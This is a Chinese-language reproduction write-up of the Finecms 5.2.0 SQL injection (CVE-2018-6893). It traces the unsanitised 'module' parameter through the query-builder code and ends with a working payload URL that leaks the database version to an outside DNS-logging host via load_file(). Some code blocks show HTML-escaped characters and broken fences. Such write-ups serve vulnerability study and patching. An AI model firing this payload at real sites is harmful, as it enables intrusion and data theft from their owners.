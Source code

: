 ```yaml
---
title: "（CVE-2018-6893）Finecms SQL注入漏洞"
id: zhfly2942
---
```


# （CVE-2018-6893）Finecms 5.2.0 SQL注入漏洞

## 一、漏洞简介

Finecms 5.2.0版本中的`controllers/member/Api.php`文件存在SQL注入漏洞，该漏洞源于程序没有进行有效的过滤。远程攻击者可利用该漏洞执行SQL命令。

## 二、漏洞影响

Finecms 5.2.0

## 三、复现过程

漏洞位置在：

finecms/dayrui/controllers/member/Api.php 590行左右

```
public function checktitle() {
    $id = (int)$this->input->get('id');
    $title = $this->input->get('title', TRUE);
    $module = $this->input->get('module');
    (!$title || !$module) && exit('');
    $num = $this->db->where('id<>', $id)->where('title', $title)->count_all_results(SITE_ID.'_'.$module);
    $num ? exit(fc_lang('<font color=red>'.fc_lang('重复').'</font>')) : exit('');
} 
```

可以看到方法count_all_results()使用了$module,count_all_results()方法如下：

```
public function count_all_results($table = '', $reset = TRUE)
    {
        if ($table !== '')
        {
            $this->_track_aliases($table);
            $this->from($table);
        }

```
 // ORDER BY usage is often problematic here (most notably
    // on Microsoft SQL Server) and ultimately unnecessary
    // for selecting COUNT(*) ...
    if ( ! empty($this-&gt;qb_orderby))
    {
        $orderby = $this-&gt;qb_orderby;
        $this-&gt;qb_orderby = NULL;
    }

    $result = ($this-&gt;qb_distinct === TRUE OR ! empty($this-&gt;qb_groupby) OR ! empty($this-&gt;qb_cache_groupby) OR $this-&gt;qb_limit OR $this-&gt;qb_offset)
        ? $this-&gt;query($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')."\nFROM (\n".$this-&gt;_compile_select()."\n) CI_count_all_results")
        : $this-&gt;query($this-&gt;_compile_select($this-&gt;_count_string.$this-&gt;protect_identifiers('numrows')));

    if ($reset === TRUE)
    {
        $this-&gt;_reset_select();
    }
    // If we've previously reset the qb_orderby values, get them back
    elseif ( ! isset($this-&gt;qb_orderby))
    {
        $this-&gt;qb_orderby = $orderby;
    }

    if ($result-&gt;num_rows() === 0)
    {
        return 0;
    }

    $row = $result-&gt;row();
    return (int) $row-&gt;numrows;
} 
``` 
```

可以看到对传入的table参数进行了是否为空校验以及经过两个函数的处理，再跟进_track_aliases函数继续进行分析：

```
protected function _track_aliases($table)
    {
        if (is_array($table))
        {
            foreach ($table as $t)
            {
                $this->_track_aliases($t);
            }
            return;
        }

```
 // Does the string contain a comma?  If so, we need to separate
    // the string into discreet statements
    if (strpos($table, ',') !== FALSE)
    {
        return $this-&gt;_track_aliases(explode(',', $table));
    }

    // if a table alias is used we can recognize it by a space
    if (strpos($table, ' ') !== FALSE)
    {
        // if the alias is written with the AS keyword, remove it
        $table = preg_replace('/\s+AS\s+/i', ' ', $table);

        // Grab the alias
        $table = trim(strrchr($table, ' '));

        // Store the alias, if it doesn't already exist
        if ( ! in_array($table, $this-&gt;qb_aliased_tables, TRUE))
        {
            $this-&gt;qb_aliased_tables[] = $table;
            if ($this-&gt;qb_caching === TRUE &amp;&amp; ! in_array($table, $this-&gt;qb_cache_aliased_tables, TRUE))
            {
                $this-&gt;qb_cache_aliased_tables[] = $table;
                $this-&gt;qb_cache_exists[] = 'aliased_tables';
            }
        }
    }
} 
``` 
```

可以看到table在这个函数中经过了较多过滤，继续看下一个函数from：

```
public function from($from)
    {
        foreach ((array) $from as $val)
        {
            if (strpos($val, ',') !== FALSE)
            {
                foreach (explode(',', $val) as $v)
                {
                    $v = trim($v);
                    $this->_track_aliases($v);
                    $this->qb_from[] = $v = $this->protect_identifiers($v, TRUE, NULL, FALSE);
                    if ($this->qb_caching === TRUE)
                    {
                        $this->qb_cache_from[] = $v;
                        $this->qb_cache_exists[] = 'from';
                    }
                }
            }
            else
            {
                $val = trim($val);
                // Extract any aliases that might exist. We use this information
                // in the protect_identifiers to know whether to add a table prefix
                $this->_track_aliases($val);
                $this->qb_from[] = $val = $this->protect_identifiers($val, TRUE, NULL, FALSE);
                if ($this->qb_caching === TRUE)
                {
                    $this->qb_cache_from[] = $val;
                    $this->qb_cache_exists[] = 'from';
                }
            }
        }
        return $this;
    } 
```

可以看到经过这两个函数以及finecms本身get方法的过滤，能用的符号不多了，但是括号以及逗号都还能使用。

在测试的时候，如果传入的参数比如：module=1，则会爆表不存在的错误，并且可以看到查询的语句，而module参数位于from位置，也就是查询的表的位置，于是使用逗号分割查询的表，并使用dns外带数据

payload如下

```
http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=13&title=123&module=news,(select load_file(concat(0x5c5c5c5c,version(),0x2e6d7973716c2e61687a6935672e636579652e696f5c5c616263))) as total 
```